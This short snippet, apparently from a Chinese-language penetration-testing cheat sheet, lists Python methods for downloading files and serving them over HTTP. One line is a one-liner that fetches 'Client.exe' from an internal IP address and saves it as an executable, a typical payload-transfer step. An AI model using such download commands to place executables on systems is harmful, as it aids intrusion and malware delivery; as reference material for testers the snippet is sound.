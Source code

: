 #### 方式1
    python -c 'import urllib;urllib.urlretrieve("http://192.168.1.192/Client.exe","/path/to/save/1.exe")'

#### 方式二

    #!/usr/bin/python   
	import urllib2   
	u = urllib2.urlopen('http://domain/file')   
	localFile = open('local_file', 'w')   
	localFile.write(u.read())   
	localFile.close()  

	执行：python test.py

#### 方式三

#### 搭建 HTTP server
	
	python2	
	python -m SimpleHTTPServer 1337 
		
	python3	
	python -m http.server 1337  
